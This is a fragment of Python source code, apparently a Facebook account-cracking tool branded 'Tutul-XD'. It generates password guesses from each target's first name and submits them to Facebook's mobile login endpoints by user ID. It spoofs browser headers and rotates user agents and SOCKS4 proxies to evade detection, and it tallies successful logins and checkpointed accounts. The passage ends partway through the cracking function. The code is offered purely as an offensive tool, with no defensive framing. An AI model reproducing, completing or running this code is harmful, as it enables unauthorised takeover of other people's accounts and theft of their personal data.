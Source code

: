 					
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(nmf)
					pwv.append(frs+'@')
					pwv.append(frs+'@123')
					pwv.append(frs+'@@')
					pwv.append(frs+'@@@')
					pwv.append(frs+'@@@@')
					pwv.append(frs+'@#')
					pwv.append(frs+'1122')
					pwv.append(frs+'12')
					
					
					
				pool.submit(crack,idf,pwv)
	print('')
	TUTULj('==========================================')
	TUTULj('CLONING COMPLETE .......... ')
	print(f'{h}[{h}💚{h}]{h} Your Total OK idz : {h}%s '%(ok))
	input('CLICK ENTER TO EXIT ')
		
def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\r{bo}[Tutul-XD] {P}[{h}{loop}{P}]>~<[{h}{len(id)}{P}]{bo}•{P}[{h}Ok{P}•{bo}{ok}{P}] "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				#Tutul-King
				#print(f'\r\033[0;94m[{time.strftime("%H:%M")}•Tutul-Cp] {idf} • {pw}')     